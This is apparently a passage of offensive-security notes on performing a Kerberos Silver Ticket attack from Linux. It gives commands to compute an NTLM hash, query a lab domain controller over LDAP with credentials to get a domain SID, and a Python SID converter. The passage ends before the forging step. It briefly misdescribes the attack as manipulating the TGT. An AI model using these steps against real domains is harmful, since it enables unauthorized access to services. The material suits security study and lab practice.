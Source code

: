 ## # `Silver Ticket Attack via Linux` -

[Silver Ticket attack](https://adsecurity.org/?p=2011) 

Silver ticket exploitation is a specific attack that involves manipulating the Kerberos Ticket Granting Ticket (TGT) to create forged service tickets, which grant unauthorized access to specific services. This attack is used when an attacker has acquired a user's hashed credentials, either through credential theft or other means. The attacker then creates a forged ticket (silver ticket) for a specific service and uses it to gain unauthorized access.

==A Silver Ticket is a forged TGS (Ticket Granting Service) ticket, which is used directly between the client and the service, without necessarily going to the DC==. Instead, the TGS ticket is signed by the service account itself, and thus the Silver Ticket is limited to authenticating only the service itself.

To create a Silver Ticket, an attacker needs:

1. The NTLM hash of the password for the service account;
2. The SID of the domain
3. The service principle name (SPN) associated with the account.

- To get an NTLM hash of a password “Pegasus60”(example), You can use the commands from [this post](https://blog.atucom.net/2012/10/generate-ntlm-hashes-via-command-line.html) :

```bash
napster@hacky$ iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4 (stdin)= b999a16500b87d17ec7f2e2a68778f05
```

- For Domain SID you can either use `ldap` :

```bash
napster@hacky$ ldapsearch -h dc1.scrm.local -Z -D ksimpson@scrm.local -w ksimpson -b "DC=scrm,DC=local" "(objectClass=user)" 
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#
...[snip]...
# Administrator, Users, scrm.local
dn: CN=Administrator,CN=Users,DC=scrm,DC=local
...[snip]...                         
objectSid:: AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9AEAAA==
...[snip]... 
```

You need that SID in string form, so you can use [this blog](https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253) and some Python to write a converter:

```python
#!/usr/bin/env python3

import base64
import struct
import sys

b64sid = sys.argv[1]
binsid = base64.b64decode(b64sid)
a, N, cccc, dddd, eeee, ffff, gggg = struct.unpack("BBxxxxxxIIIII", binsid)
bb, bbbb = struct.unpack(">xxHIxxxxxxxxxxxxxxxxxxxx", binsid)
bbbbbb = (bb << 32) | bbbb

print(f"S-{a}-{bbbbbb}-{cccc}-{dddd}-{eeee}-{ffff}-{gggg}")
```
